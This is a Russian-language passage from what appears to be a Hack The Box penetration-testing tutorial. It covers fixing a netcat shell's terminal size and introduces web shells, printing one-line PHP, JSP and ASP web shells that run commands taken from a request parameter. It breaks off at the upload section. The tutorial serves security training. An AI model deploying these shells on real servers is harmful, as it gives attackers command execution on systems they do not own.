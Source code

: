 Мы можем заметить, что наша оболочка не покрывает весь терминал. Чтобы исправить это, нам нужно выяснить несколько переменных. Мы можем открыть другое окно терминала в нашей системе, развернуть окна или использовать любой размер, который нам нужен, а затем ввести следующие команды, чтобы получить наши переменные:

```bash
spike@htb[/htb]$ echo $TERM

xterm-256color
```

```bash
spike@htb[/htb]$ stty size

67 318
```

Первая команда показала нам переменную TERM, а вторая - значения для строк и столбцов соответственно. Теперь, когда у нас есть переменные, мы можем вернуться в оболочку netcat и использовать следующую команду для их исправления:

```bash
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Как только мы это сделаем, у нас должна быть оболочка netcat, которая использует все функции терминала, точно так же, как соединение SSH.

## Web Shell

Последний тип оболочки - это веб-оболочка. Веб-оболочка обычно представляет собой веб-скрипт, то есть PHP или ASPX, который принимает нашу команду через параметры HTTP-запроса, такие как параметры запроса GET или POST, выполняет нашу команду и печатает ее вывод обратно на веб-страницу.

### **Writing a Web Shell**

Прежде всего, нам нужно написать нашу веб-оболочку, которая будет принимать нашу команду через запрос GET, выполнять ее и печатать ее вывод обратно. Сценарий веб-оболочки обычно является однострочным, очень коротким и легко запоминающимся. Ниже приведены некоторые распространенные короткие сценарии веб-оболочки для распространенных веб-языков:

```php
<?PHP system($_GET['cmd']);?>
```

```javascript
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```aspnet
<% eval request("cmd") %>
```

### **Uploading a Web Shell**
